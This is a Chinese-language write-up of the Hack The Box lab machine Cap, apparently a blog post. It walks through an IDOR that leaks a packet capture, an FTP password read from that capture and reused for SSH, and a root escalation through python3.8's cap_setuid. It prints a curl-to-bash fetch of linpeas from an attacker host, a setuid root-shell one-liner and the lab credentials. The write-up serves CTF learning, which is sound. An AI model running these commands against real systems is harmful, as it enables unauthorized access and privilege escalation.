> 本文记录 Hack The Box 入门机器 Cap 的复盘，靶机难度不高，因此**不按「侦察 → 利用 → 提权」的顺滑剧本写**。
> 在打靶机的过程，每一次不成功的试探我觉得更值得记录：每一处「我以为是 A，结果卡住，最后发现是 B」的转折点。
> 成功路径我会压成一份「通关手册」放在开篇，命令直接给全；正文只讲弯路，把篇幅留给「判断力是怎么长出来的」。

## 〇、通关手册

### Step 1 · 端口扫描（发现 21 / 22 / 80）

先做服务版本探测，关键看**版本指纹**（`vsftpd 3.0.3` / `OpenSSH 8.2p1` / `Gunicorn`），而不是扫完就急着动手：

```bash
clay@kali$ sudo nmap -sC -sV -n -Pn 10.129.40.139 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-10 17:08 +0800
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.129.40.139
Host is up (1.8s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.28 seconds
```

### Step 2 · 快速排除 FTP 匿名登录

提示 Name 时输入 anonymous，密码直接回车留空，提示登录失败。目前还没有获得有效的ftp凭据，先搁置。

```bash
clay@kali$ ftp 10.129.40.139        
Connected to 10.129.40.139.
220 (vsFTPd 3.0.3)
Name (10.129.40.139:clay): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

### Step 3 · 浏览 Web，摸清功能点

nmap结果显示80端口开放，nmap 指纹显示首页标题 `Security Dashboard`。使用浏览器打开 `http://10.129.40.139/`，发现一个后台Dashboard页面。



逐个点菜单：

- `IP Config` → 返回 `ifconfig` 输出



- `Network Status` → 返回 `netstat` 输出



- `Security Snapshot` → 停顿几秒生成一个 `pcap`，提供 `Download`


**判断**：前两个只是命令输出展示；`Security Snapshot` 是「能产生抓包」的关键功能点。

### Step 4 · 触发抓包，发现 IDOR

1. 触发 `Security Snapshot` 后，注意地址栏 URL 形如 `/data/<id>`，你得到的通常是 `/data/1`（属于你那份）。
2. 下载并查看 `/data/1`，文件大小只有108B，使用wireshark只有自己的少量流量，检查未发现有用的线索。猜测 id 递增，如果服务端不校验「对象归属」，即存在**不安全的直接对象引用**漏洞（Insecure Direct Object Reference，IDOR），则可以越权下载其他流量包。
3. 尝试直接访问 `id=0`，果然拿到历史抓包（cap0.pcap)，文件大小为17KB，数据更多，线索可能就在其中：

```bash
clay@kali$ curl -o cap0.pcap http://10.129.40.139/data/0
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100  17147 100  17147   0      0   3225      0   00:05   00:05           3857
clay@kali$ ll
.rw-rw-r-- clay clay  17 KB Fri Sep 11 10:27:52 2026   cap0.pcap
.rw-rw-r-- clay clay 108 B  Fri Sep 11 10:26:37 2026   1.pcap
```

### Step 5 · Wireshark 分析抓包，提取凭据

用 Wireshark 打开 `cap0.pcap` ，详细查看流量数据，发现其中存在`ftp`流量。考虑到靶机对外开放了`ftp`服务，所以值得细究。果然，发现了登录`ftp`的流量记录，并且得到一组`ftp`用户凭证：明文 `USER nathan` 与密码 `PASS Buck3tH4TF0RM3!`。



### Step 6 · SSH 登录，拿 user flag

密码复用是比较常见的安全风险，尝试利用得到的`ftp`用户凭证登录`ssh`，成功登录！在`nathan`用户的主目录可以成功读取到`user flag`。

```bash
clay@kali$ ssh nathan@10.129.40.139
The authenticity of host '10.129.40.139 (10.129.40.139)' can't be established.
ED25519 key fingerprint is: SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI
......<SNIP>......
nathan@10.129.40.139's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
......<SNIP>......
nathan@cap:~$ ls
user.txt
```

### Step 7 · 提权，拿 root flag

1. 找提权点。从https://github.com/peass-ng/PEASS-ng下载`linpeas.sh`。然后攻击机起一个`http`服务，在靶机的`ssh`中使用`curl / wget`将`linpeas.sh`从攻击机下载到靶机中并执行。

```bash
# 攻击机：
clay@kali$ python3 -m http.server 8000（在 linpeas.sh 所在目录）
# 靶机：
nathan@cap:~$ curl http://<attacker_IP>:8000/linpeas.sh | bash
```

2. 等`linpeas.sh`运行结束，翻看命令执行结果，在`Files with Interesting Permissions`章节的`Files with capabilities`部分，可以看到以下内容：

```bash
Files with capabilities (limited to 50):                                                                        
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip                                                        
/usr/bin/ping = cap_net_raw+ep                                                                                  
/usr/bin/traceroute6.iputils = cap_net_raw+ep                                                                   
/usr/bin/mtr-packet = cap_net_raw+ep                                                                            
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

其中第一条显示 `/usr/bin/python3.8` 带 `cap_setuid` 能力，它允许 Python 解释器调用`setuid`把`UID`改成任意值，包括`0`，这正是这台靶机开发者「为了跑抓包脚本」而赋予的能力被滥用的原因。我们可以利用它进行提权。



3. 编写以下`python`脚本并执行，即可直接进入`root shell`：

```python
import os
# 将当前进程的 UID 设为 0（root）——借助 python3 解释器身上的 cap_setuid 能力，
# 无需 SUID 位即可提权
os.setuid(0)
# 以 root 身份拉起一个交互式 bash shell
os.system("/bin/bash")
```

或者直接运行`python`单行命令：

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
root@cap:~# ls /root/
root.txt  snap
```



---

## 一、失败路径复盘

### 1.1 扫描阶段：服务指纹被「一扫而过」

- **我的初始动作**：拿到 IP 习惯性 `-sC -sV` 跑默认端口，扫完就把结果晾在一边，急着去开网页。
- **卡住的地方**：没注意到 `80` 端口是 `Gunicorn`（Python HTTP 服务）这个指纹，导致后面误判为「普通静态/模板网站」，触发 1.2 的目录爆破假勤奋。
- **拐点**：重新读 nmap 输出，把每个服务的「版本与指纹」当成线索而非装饰，才意识到应该优先看 Web 的**功能点**（IP Config / Network Status / Security Snapshot），而不是搜路径。

```bash
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

### 1.2 目录爆破的「假勤奋」

- **我的初始动作**：以为入口藏在某个路径里，开 `gobuster/ffuf` 爆了一轮。
- **卡住的地方**：花费大量时间扫描，结果一屏错误，没有关键入口，耽误大量时间。
- **拐点**：这台的入口不在「隐藏路径」，而在「能产生副作用的系统命令功能」——抓包、ifconfig、netstat。方向错了，工具再猛也是空转。



---

### 1.3 核心坑：被「自己的抓包」带偏

在浏览器中打开`http://10.129.40.139/`后，先大致浏览了一下功能。一开始发现`IP Config`和`Network Status`菜单是 `ifconfig`、`netstat` 的网页版输出，第一反应是有没有可能命令注入，然后抓包、`GET`换成`POST`、尝试注入参数，试了半天没有任何收获。然后才想到先把`Security Snapshot`页面的流量包下载下来看看再说。

下载流量包的时候又想到，既然是下载文件，有没有可能是任意文件下载。然后又是一番挂字典、尝试下载，仍然无果。算了，先看看下载到的流量包里有什么再说吧。

使用Wireshark 打开`1.pcap`文件，从头到尾过了一遍，没有任何发现，意识到线索可能不在这个包里。终于，再次审视对应的`URL`，才意识到`IDOR`。很多时候，信息泄漏点往往藏在「访问它的那个参数」里，而不是它吐给你的正文里。

---

### 1.4 IDOR：从 `id=1` 到 `id=0` 的一念之间

我把访问地址修改为http://10.129.40.139/data/2，发现果然可以访问，但是抓到的包更少了。



然后，这里我又把问题想复杂了，以为需要进行简单的暴破。于是在Burp Intruder中对id进行暴破，范围从`1`到`999`，忘记从`0`开始了！！！



总之，一番折腾无果，终于发现还有个`0`没有测，手动在浏览器里试一下，才算是回到正轨。



以后渗透时还是要养成习惯：**针对这种「纯数字、按序号」取对象的模式（/data/0、/user/1、/order/1024、?id=123），先别问它有没有权限，先试边界值 0 / -1 / 相邻 id**。

---

### 1.5 提权卡点：SUID 枚举无果

- **我的初始动作**：进 shell 后我习惯于先跑一下是否有`sudo`权限，无果。

```bash
nathan@cap:~$ sudo -l                                                                                           
[sudo] password for nathan:                                                                                     
Sorry, try again.                                                                                               
[sudo] password for nathan:                                                                                     
Sorry, user nathan may not run sudo on cap. 
```

- 然后跑一下常规 SUID 枚举 `find / -perm -4000 -type f 2>/dev/null`，只有常规的系统程序。

```bash
nathan@cap:~$ find / -perm -4000 -type f 2>/dev/null                                                            
/usr/bin/umount                                                                                                 
/usr/bin/newgrp                                                                                                 
/usr/bin/pkexec                                                                                                 
/usr/bin/mount                                                                                                  
/usr/bin/gpasswd                                                                                                
/usr/bin/passwd                                                                                                 
/usr/bin/chfn                                                                                                   
/usr/bin/sudo                                                                                                   
/usr/bin/at                                                                                                     
/usr/bin/chsh                                                                                                   
/usr/bin/su                                                                                                     
/usr/bin/fusermount                                                                                             
/usr/lib/policykit-1/polkit-agent-helper-1                                                                      
......<SNIP>......
```

- **卡住的地方**：没找到明显可利用项，一度以为这台提权要靠内核漏洞，尤其是`linpeas.sh`也发现一些可能的内核漏洞利用点。



- **拐点**：其实我不太想用内核漏洞提权，因为一般都需要源码编译，涉及依赖库，靶机不一定有相关环境。想到靶机名称`Cap`可能也是一个提示，于是仔细看了一下`linpeas.sh`脚本输出中关于`Files with Interesting Permissions`的部分，果然有所发现。没有`linpeas.sh`脚本时，可以直接使用`getcap -r / 2>/dev/null`命令。

```bash
nathan@cap:~$ getcap -r / 2>/dev/null                                                                           
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip                                                        
/usr/bin/ping = cap_net_raw+ep                                                                                  
/usr/bin/traceroute6.iputils = cap_net_raw+ep                                                                   
/usr/bin/mtr-packet = cap_net_raw+ep                                                                            
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

---

## 二、复盘结论

| 乱序阶段 | 踩的坑 | 经验教训 |
| --- | --- | --- |
| 扫描 | 服务指纹一扫而过 | 版本与指纹是线索，不是装饰 |
| Web | 目录爆破假勤奋 | 先找「功能点」，再找「路径」 |
| 抓包 | 被自己的干净流量带偏 | 内容空 ≠ 功能没用，线索可能在 **URL 参数** |
| IDOR | 默认 id 从 1 开始 | 见「序号访问对象」先试左右边界值 |
| 提权 | 只会套 SUID 模板 | SUID 无果 → 查 capabilities |

> 一句话总结：线索藏在细节里，暴破不是首选，确定方向再动手。